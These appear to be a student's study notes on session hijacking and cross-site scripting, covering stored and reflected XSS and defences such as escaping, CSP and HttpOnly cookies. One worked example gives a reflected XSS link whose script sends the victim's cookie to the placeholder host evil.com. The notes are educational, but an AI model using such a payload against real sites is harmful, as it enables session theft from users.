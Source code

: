 
### Session Hijacking
**Session Hijacking** is the exploitation of a valid commuter session to gain unauthorized access to information services in a computer system. This makes sense as sessions are used to maintain use authenticated  state. This can happen in different ways:

**Session token theft vulnerabilities**
1. Predictable tokens - attacker can guess the token - Cookies should be unpredictable
2. HTTPS/HTTP - site has mixed HTTPS/HTTP pages and token is sent of HTTP and so can be read in plaintext - set **Secure** attribute so cookies are only sent over TLS - Always issue new session token when raising user from being anonymous (possibly over HTTP to authenticated over HTTPS)
3. Cross site scripting
4. Cross-site request forgeries

## XSS Attacks
**Cross Site Scripting** XSS attacks are type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites.

![[Pasted image 20230406121442.png]]

This would mean the JS has the permissions from the original server's data sent over for example with the origin of the service server. So they have access to the DOM etc.

Of course this is broader than session hijacking and can so many things.

### Ingredient of XSS Attacks
The goal of an attacker is to slip code into the browser under the guise of conforming to the SOP. For this we need

- $evil.com$ to provide a malicious script
- attacker trick the vulnerable server ($bank.com$) to send attacker's script to the user browser.
- Victims browser believed the scrip's origin is $bank.com$
- Malicious script runs with $bank.com$ access privileges.

There are two types of XSS attacker **reflected XSS** and **stored XSS**.

### Stored XSS Attacks
The injected script is **permanently stored on the target servers** such as in a database in a message forum visitor log comment field etc. An example of this is customizing homepages on Social Media apps. The victim retrieves the malicious script from the server when it requests the stored information. The browser just runs the script within the context f $bank.com$.

![[Pasted image 20230406122510.png]]

### Reflected XSS Attacks
The **injected script is reflected off the web server** e.g. in an error message, search result, that includes part of the request. Reflected attacks are deliver to victims via another rout such as an email message of on other web message.

The JS is not stored we just trick the victim into visiting an displaying some code. 

![[Pasted image 20230406122529.png]]

So this happens when some sort of user input is echoed into the browser without protection. **ALWAYS USE PROTECTION!**.

### XSS Example

![[Pasted image 20230406123058.png]]

1. Alice visits $evil.com$ which contains the link "https://victim_site.com/search.php?term=\<script\> widow.location='http://evil.com/?c='document.cookie\<\/script\>"
2. Alice clicks the link
3. Alice's browser send of the term.
4. The victim cite returns a script containing the $term as the script tag.
5. Now authenticated the cookie is sent to $evil.com$

### XXS Defence
The problem is **user supplied input**. One defence is **escaping**. Before we serve the HTTP response so that the browser only interprets them as a string.  But this doesn't always work and there are many ways t introduce JS.

**Input Validation** here we check the the inputs headers, cookies, query strings from fields, and hidden fields are expected from (whitelisting).

**CSP** Here the serve supplies a whitelist of the scripts that are allowed to appear on the page. This way injected JS cannot be added or loaded from elsewhere. But here we lock down what can be loaded.

**Http-Only attribute** - For cookies defends against session hijacking. This way JS cannot access the cookies and exfiltrate them.

##### RAW vs. Escaped Output
Escaping removes dangerous character and makes them only interpretable as text rather than parts of tags for example.

[[[Cross Site Scripting Questions]]]

